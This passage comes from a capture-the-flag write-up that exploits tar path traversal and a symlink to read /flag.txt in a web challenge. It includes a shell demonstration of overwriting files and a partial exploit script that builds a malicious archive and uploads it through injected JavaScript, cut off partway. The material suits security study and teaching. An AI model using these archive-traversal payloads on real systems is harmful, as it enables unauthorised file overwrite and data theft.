 ```bash
(base) [hacker@hackerbook Acnologia Portal]$ ls /tmp/targetfile
ls: cannot access '/tmp/targetfile': No such file or directory
(base) [hacker@hackerbook Acnologia Portal]$ touch /tmp/targetfile
(base) [hacker@hackerbook Acnologia Portal]$ cat /tmp/targetfile 
(base) [hacker@hackerbook Acnologia Portal]$ python3 tarfile_test.py 
### tmp: /tmp ##############################
### filename: /tmp/rand_dir/../tmp/targetfile ##############################
(base) [hacker@hackerbook Acnologia Portal]$ cat /tmp/targetfile 
PWNED N00B
(base) [hacker@hackerbook Acnologia Portal]$ 
```

I could use this to overwrite files in the directory that I have control off, such as the flask program. This is very tempting as Flask could be running in debug mode, which means lazy reload is on.

### Overwriting Important Files

Now I need to find files to overwrite to result in RCE. However, after having a pair of eyes, I realised that Flask is NOT running in debug mode. As a result, attempts to replace the python code as well as the templates fail.However, I can write to the static directory (which is useless).

Pycache is disabled in the dockerfile, suggesting it is something to do with the python files 

However I tried overwriting the database (which caused it to be empty instead for some reason), the python file, the template, which all didn't work

## The Key Ingredient - Symlink

In short, I just needed to upload a symlink in the static directory (which can be done with the path traversal) to `/flag.txt`

Final Exploit

```python
import os

commands = """
cd /tmp && mkdir -p /tmp/tar_gen/workdir 
mkdir -p /tmp/tar_gen/app/application/static 
echo 'This proof was generated on' $(date) > /tmp/tar_gen/app/application/static/upload_proof.txt  &&
ln -s /flag.txt /tmp/tar_gen/app/application/static/flag.txt
cd /tmp/tar_gen/workdir
tar -czvf test.tar.gz --absolute-names ../app/application/static/upload_proof.txt ../app/application/static/flag.txt 
cp test.tar.gz /tmp/test.tar.gz
"""
print(os.popen(commands).read())

b64Data = os.popen("cat /tmp/test.tar.gz | base64").read().replace("\n", "")


output = f"""
<h1>Pwn Attempt</h1>
<script>
var b64Data = "{b64Data}";
""" + """

async function sendFile()
{
    var FILENAME = "test.tar.gz"
    
    var ENDPOINT = "http://localhost:1337/api/firmware/upload";
    
    /// Upload file from b64 //////////////////////////
```